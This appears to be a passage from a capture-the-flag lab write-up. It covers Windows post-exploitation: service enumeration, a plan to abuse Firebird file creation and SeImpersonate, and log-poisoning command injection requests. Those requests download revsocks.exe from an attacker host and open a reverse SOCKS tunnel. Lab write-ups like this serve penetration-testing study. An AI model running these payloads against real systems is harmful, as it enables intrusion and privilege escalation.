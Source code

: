 The current user did not have useful privileges, so we decided to search for running services and we noticed the `Firebird` service:

```bash
PS C:\Program Files> dir
dir

    Directory: C:\Program Files

Mode                LastWriteTime         Length Name                                                             
----                -------------         ------ ----                                                             
d-----         7/5/2021   7:18 AM                Apache Software Foundation                                       
d-----         7/5/2021   6:59 AM                Common Files                                                     
d-----         7/5/2021   4:35 AM                Firebird   

PS C:\Program Files\Firebird> netstat -aon
netstat -aon

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       888
[...]
  TCP    10.129.95.158:139      0.0.0.0:0              LISTENING       4
  TCP    10.129.95.158:8080     10.10.14.65:59178      CLOSE_WAIT      2076
  TCP    10.129.95.158:49676    10.10.14.65:9999       ESTABLISHED     4692
  TCP    [::]:80                [::]:0                 LISTENING       4
  TCP    [::]:135               [::]:0                 LISTENING       888
  TCP    [::]:445               [::]:0                 LISTENING       4
  TCP    [::]:3050              [::]:0                 LISTENING       2360
```

This service was only listening on the IPv6 address and on the TCP port 3050. 

After reading the interesting blogpost [Firebird Database Exploitation](https://www.infosecmatter.com/firebird-database-exploitation/), we decided to exploit the firebird feature that allows creating files under the IIS web applications directory, which was `C:\inetpub\wwwroot\`. 

In fact, as IIS was listening on the TCP port 80, and we knew if we could execute arbitrary code under the IIS service account, we could use its `SeImpersonate` privilege in order to escalate our privileges and gain local Administrator privileges.

In order to perform network pivoting and to exploit the service only listening on IPv6, we created a reverse SOCKS:

```bash
$ GET /process.php?path=C:/Apache24/logs/access.log&cmd=<@urlencode>powershell curl http://10.10.14.65:8080/revsocks.exe -o revsocks.exe<@/urlencode> HTTP/1.1
Host: 10.129.164.169:8080

$ ./revsocks -lister 10.10.14.65:9090 -pass 24098219308429084219084

$ GET /process.php?path=C:/Apache24/logs/access.log&cmd=<@urlencode>revsocks.exe -connect 10.10.14.65:9090 -pass [...]<@/urlencode> HTTP/1.1
Host: 10.129.164.169:8080
```
